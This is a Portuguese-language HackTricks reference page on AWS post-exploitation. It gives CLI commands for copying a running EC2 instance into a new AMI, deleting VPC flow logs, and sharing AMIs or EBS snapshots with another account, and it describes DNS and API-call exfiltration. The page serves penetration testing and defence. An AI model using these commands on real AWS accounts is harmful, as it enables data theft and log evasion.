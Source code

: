 # AWS - Pós-Exploração de EC2, EBS, SSM e VPC

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **versão mais recente do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe seus truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>

## EC2 e VPC

Para mais informações, verifique:

{% content-ref url="../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### **Espelhamento Malicioso de VPC**

O espelhamento de tráfego da VPC **duplica o tráfego de entrada e saída para instâncias EC2 dentro de uma VPC** sem a necessidade de instalar qualquer coisa nas próprias instâncias. Esse tráfego duplicado geralmente é enviado para algo como um sistema de detecção de intrusão de rede (IDS) para análise e monitoramento.\
Um atacante poderia abusar disso para capturar todo o tráfego e obter informações sensíveis dele:

{% content-ref url="../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-malicious-vpc-mirror.md" %}
[aws-malicious-vpc-mirror.md](../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-malicious-vpc-mirror.md)
{% endcontent-ref %}

### Copiar Instância em Execução

As instâncias geralmente contêm algum tipo de informação sensível. Existem diferentes maneiras de entrar (verifique [trapaças de escalonamento de privilégios do EC2](../../../aws-security/aws-privilege-escalation/aws-ec2-privesc.md)). No entanto, outra maneira de verificar o que ela contém é **criar uma AMI e executar uma nova instância (mesmo em sua própria conta) a partir dela**:
```shell
# List instances
aws ec2 describe-images

# create a new image for the instance-id
aws ec2 create-image --instance-id i-0438b003d81cd7ec5 --name "AWS Audit" --description "Export AMI" --region eu-west-1

# add key to AWS
aws ec2 import-key-pair --key-name "AWS Audit" --public-key-material file://~/.ssh/id_rsa.pub --region eu-west-1

# create ec2 using the previously created AMI, use the same security group and subnet to connect easily.
aws ec2 run-instances --image-id ami-0b77e2d906b00202d --security-group-ids "sg-6d0d7f01" --subnet-id subnet-9eb001ea --count 1 --instance-type t2.micro --key-name "AWS Audit" --query "Instances[0].InstanceId" --region eu-west-1

# now you can check the instance
aws ec2 describe-instances --instance-ids i-0546910a0c18725a1

# If needed : edit groups
aws ec2 modify-instance-attribute --instance-id "i-0546910a0c18725a1" --groups "sg-6d0d7f01"  --region eu-west-1

# be a good guy, clean our instance to avoid any useless cost
aws ec2 stop-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1
aws ec2 terminate-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1
```
### Despejo de Snapshot do EBS

**Snapshots são backups de volumes**, que geralmente contêm **informações sensíveis**, portanto, verificá-los pode revelar essas informações.\
Se você encontrar um **volume sem snapshot**, você pode: **Criar um snapshot** e realizar as seguintes ações ou simplesmente **montá-lo em uma instância** dentro da conta:

{% content-ref url="aws-ebs-spanshot-dump.md" %}
[aws-ebs-spanshot-dump.md](aws-ebs-spanshot-dump.md)
{% endcontent-ref %}

### Exfiltração de Dados

#### Exfiltração via DNS

Mesmo que você restrinja um EC2 para que nenhum tráfego possa sair, ele ainda pode **exfiltrar via DNS**.

* **Os registros de fluxo da VPC não registrarão isso**.
* Você não tem acesso aos logs de DNS da AWS.
*   Desative isso definindo "enableDnsSupport" como falso com:

`aws ec2 modify-vpc-attribute --no-enable-dns-support --vpc-id <vpc-id>`

#### Exfiltração via chamadas de API

Um invasor pode chamar endpoints de API de uma conta controlada por ele. O Cloudtrail registrará essas chamadas e o invasor poderá ver os dados exfiltrados nos logs do Cloudtrail.

### Pós-Exploração do SSM

{% content-ref url="../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-ssm-post-exploitation.md" %}
[aws-ssm-post-exploitation.md](../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-ssm-post-exploitation.md)
{% endcontent-ref %}

### Privesc para ECS

É possível executar uma instância EC2 e registrá-la para ser usada para executar instâncias ECS e, em seguida, roubar os dados das instâncias ECS.

Para [**mais informações, verifique isso**](../../../aws-security/aws-privilege-escalation/aws-ec2-privesc.md#privesc-to-ecs).

### Remover logs de fluxo da VPC
```bash
aws ec2 delete-flow-logs --flow-log-ids <flow_log_ids> --region <region>
```
### Compartilhar AMI

{% code overflow="wrap" %}
```bash
aws ec2 modify-image-attribute --image-id <image_ID> --launch-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```
### Compartilhar Snapshot do EBS

{% code overflow="wrap" %}
```bash
aws ec2 modify-snapshot-attribute --snapshot-id <snapshot_ID> --create-volume-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```
{% endcode %}

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **versão mais recente do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo Telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no GitHub.

</details>
